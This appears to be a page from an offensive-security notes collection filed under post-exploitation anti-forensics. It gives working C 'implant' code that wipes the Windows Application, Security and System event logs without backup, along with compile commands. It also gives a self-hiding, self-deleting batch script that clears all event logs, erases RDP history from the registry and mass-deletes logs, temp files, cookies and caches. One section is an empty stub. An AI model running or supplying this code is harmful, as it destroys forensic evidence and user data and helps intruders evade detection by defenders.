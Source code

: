 # Clear Event Logs

## ClearEventLog

### C

Clear a single event log.

```c
#include <stdio.h>
#include <windows.h>
#include <errhandlingapi.h>
#include <winbase.h>

#pragma comment(lib, "advapi32.lib")

int main() {
    HANDLE handle_event_log;
    LPCSTR event_log_name = "Application";

    // Open the event log
    handle_event_log = OpenEventLog(NULL, event_log_name);
    if (handle_event_log == NULL) {
        printf("Failed to open event log. Error: %lu\n", GetLastError());
        return 1;
    }

    // Clear the event log without saving a backup
    if (ClearEventLog(handle_event_log, NULL) == 0) {
        printf("Failed to clear event log. Error: %lu\n", GetLastError());
        CloseEventLog(handle_event_log);
        return 1;
    }

    printf("Successfully cleared the event log: %s\n", event_log_name);

    CloseEventLog(handle_event_log);

    return 0;
}
```

Clear multiple event logs.

```c
#include <stdio.h>
#include <windows.h>
#include <errhandlingapi.h>
#include <winbase.h>

#pragma comment(lib, "advapi32.lib")

int main() {
    HANDLE handle_event_log;
    LPCSTR event_log_names[] = {"Application", "Security", "System"};

    // Loop through each log and attempt to clear it
    for (int i = 0; i < sizeof(event_log_names) / sizeof(event_log_names[0]); i++) {
        // Open the event log
        handle_event_log = OpenEventLog(NULL, event_log_names[i]);
        if (handle_event_log == NULL) {
            printf("Failed to open event log: %s. Error: %lu\n", event_log_names[i], GetLastError());
            continue;  // Move to the next log if opening fails
        }

        // Clear the event log without saving a backup
        if (ClearEventLog(handle_event_log, NULL) == 0) {
            printf("Failed to clear event log: %s. Error: %lu\n", event_log_names[i], GetLastError());
        } else {
            printf("Successfully cleared the event log: %s\n", event_log_names[i]);
        }

        CloseEventLog(handle_event_log);
    }

    return 0;
}
```

To compile the implant.

```
$ x86_64-w64-mingw32-gcc -l advapi32 -o implant.exe implant.c
```

## ClearEventLogA

### C

```c
#include <stdio.h>
#include <windows.h>
#include <winbase.h>

#pragma comment(lib, "advapi32.lib")
```

To compile the implant.

```
$ x86_64-w64-mingw32-gcc -l advapi32 -o implant.exe implant.c
```

## Batch

A batch script to wipe the files.

```batch
:: To clean all logs in vindex I recommend to use this bootnik.
:: And even this botnick does not clean all logs, for example in the registry.
:start
cmdow @ /HID

timeout.exe /t 5

for /f "tokens=1,2*" %%V in ('bcdedit.exe') do set adminTest=%%V
if (%adminTest%)==(Access) goto noAdmin
for /f "tokens=*" %%G in ('wevtutil.exe enum-logs') do (call :clear_log "%%G")
echo.
echo Event Logs have been cleared!
goto theEnd

:clear_log
echo clearing %1
wevtutil.exe clear-log %1
goto :eof

:noAdmin
echo Administrative privileges is required!
echo.

:theEnd
rd /s /q %SYSTEMDRIVE%\$RECYCLE.BIN
rd /s /q  %SYSTEMDRIVE%\recycler
reg.exe delete "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Default" /va /f
reg.exe delete "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers" /f
reg.exe add "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers"
cd %USERPROFILE%\Documents\
attrib.exe Default.rdp -s -h

del /s /q /a c:\*.log
del /s /q /a c:\*.tmp
del /f /s /q /a "%USERPROFILE%\Roaming\Macromedia\*"
del /f /s /q /a "%USERPROFILE%\Roaming\Adobe\*"
del /f /s /q /a "C:\Windows\Temp\*"
del /f /s /q /a "C:\Temp\*"
del /f /s /q /a "%USERPROFILE%\AppData\Local\Temp\*"
del /f /s /q %TEMP%\*
cd %USERPROFILE%\AppData\Local\Temp
rmdir /s /q %USERPROFILE%\AppData\Local\Temp
pushd %TEMP% && rd /s /q . > nul 2>&1
pushd %WINDIR%\TEMP && rd /s /q . > nul 2>&1
pushd %TMP% && rd /s /q . > nul 2>&1
pushd %WINDIR%\TMP && rd /s /q . > nul 2>&1
pushd %TEMP% && rd /s /q . > nul 2>&1
pushd %WINDIR%\Temp && rd /s /q . > nul 2>&1
pushd %TMP% && rd /s /q . > nul 2>&1
pushd %WINDIR%\tmp && rd /s /q . > nul 2>&1
pushd "%USERPROFILE%\Local Settings\Application Data\Temp" && rd /s /q . > nul 2>&1
pushd "%USERPROFILE%\AppData\Roaming\Adobe\" && rd /s /q . > nul 2>&1
pushd "%USERPROFILE%\Local Settings\Temporary Internet Files\" && rd /s /q . > nul 2>&1
pushd "%USERPROFILE%\Local Settings\History" && rd /s /q . > nul 2>&1
pushd %USERPROFILE%\Cookies && rd /s /q . > nul 2>&1

pushd "%USERPROFILE%\Application Data\Microsoft\CryptNetURLCache\Content\" && rd /s /q . > nul 2>&1
pushd "%USERPROFILE%\Application Data\Microsoft\CryptNetURLCache\MetaData\" && rd /s /q . > nul 2>&1
pushd "%USERPROFILE%\Local Settings\Application Data\IconCache.db" && rd /s /q . > nul 2>&1
pushd "C:\Documents and Settings\All Users\Application Data\Temp\" && rd /s /q . > nul 2>&1
pushd "C:\Documents and Settings\Default User\Cookies\" && rd /s /q . > nul 2>&1
pushd "C:\Documents and Settings\Default User\Local Settings\Temp\" && rd /s /q . > nul 2>&1
pushd "C:\Documents and Settings\Default User\Local Settings\Temporary Internet Files\" && rd /s /q . > nul 2>&1
pushd "C:\Documents and Settings\LocalService\Cookies\" && rd /s /q . > nul 2>&1
pushd "C:\Documents and Settings\LocalService\Local Settings\Temporary Internet Files\" && rd /s /q . > nul 2>&1

del /f /s /q /a "%USERPROFILE%\AppData\Roaming\Download Master\temp\*"
del /f /s /q /a "%USERPROFILE%\AppData\Roaming\Download Master\logs\*"

del %0
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x01 - Defense Evasion/13 - Anti-Forensics/Windows/Clear Traces/04 - Clear Logs/Delete Logs/Event Logs/Manual/Living off the Land]]

### Microsoft

- [Win32 API Documentation: OpenEventLogA](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-openeventloga)

- [Win32 API Documentation: OpenEventLogW](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-openeventlogw)

- [Win32 API Documentation: ClearEventLog](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/eventlogprov/cleareventlog-method-in-class-win32-nteventlogfile)

- [Win32 API Documentation: ClearEventLogA](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-cleareventloga)

- [Win32 API Documentation: ClearEventLogW](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-cleareventlogw)

- [Win32 API Documentation: CloseEventLog](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-closeeventlog)